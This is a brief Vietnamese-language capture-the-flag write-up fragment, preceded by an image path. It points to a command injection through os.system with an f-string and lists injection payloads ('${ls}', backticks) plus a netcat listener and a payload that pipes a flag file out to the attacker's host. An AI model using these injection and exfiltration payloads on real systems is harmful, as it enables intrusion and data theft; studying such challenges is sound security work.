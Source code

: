 Vuln ở ` os.system(f"python3 generate.py {filename} \"{text}\"")`

payload: `${ls}` hoặc backtick `ls`

reverse shell -> máy mình `nc -lvn 1234`, send `${cat /fa*|nc port host}`